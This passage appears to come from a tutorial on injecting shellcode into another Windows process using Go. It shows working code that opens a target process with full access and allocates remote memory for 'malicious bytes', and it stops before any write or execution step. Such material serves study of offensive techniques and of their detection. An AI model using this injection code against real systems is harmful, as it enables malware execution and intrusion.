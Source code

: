 This isn’t the only way to do this but it’s the most used and it’s easy to implement. Other option is using CGO to use C code

We also should have in mind that all the API calls return 3 values but we just will use the first and the third of them. Once we know how to access the Windows API in Golang we can continue.

The first step to inject shellcode is to get a handle to the desired process:

```go
func main(){
  ...

  // Get function from kernel32.dll
  OpenProcess := kernel32.NewProc("OpenProcess")

  pid := 1042 // Process ID (change it)
  procHandle, _, _ := OpenProcess.Call(
    windows.PROCESS_ALL_ACCESS, // Access to the process
    uintptr(0), // FALSE
    uintptr(pid), // Process to open
  )

  if procHandle == 0 { // Handle error
    fmt.Println("An error has ocurred with OpenProcess!")
    os.Exit(0)
  }
}
```

Notice that you must have the right permissisons to get process handle

Now we allocate the memory buffer so then we can write our malicious bytes. To do this we use `VirtualAllocEx`

Note the “Ex” at the end of the function which means that it can allocate memory on remote processes

```go
func main(){
  ...

  VirtualAllocEx := kernel32.NewProc("VirtualAllocEx")

  addr, _, _ := VirtualAllocEx.Call(
    uintptr(procHandle), // Process handle
    0,
    uintptr(len(shellcode)), // Shellcode length
    windows.MEM_COMMIT | windows.MEM_RESERVE,
    windows.PAGE_READWRITE, // memory permissions
  )

  if addr == 0 { // Handle error
    fmt.Println("An error has ocurred with VirtualAllocEx!")
    os.Exit(0)
  }
}
```
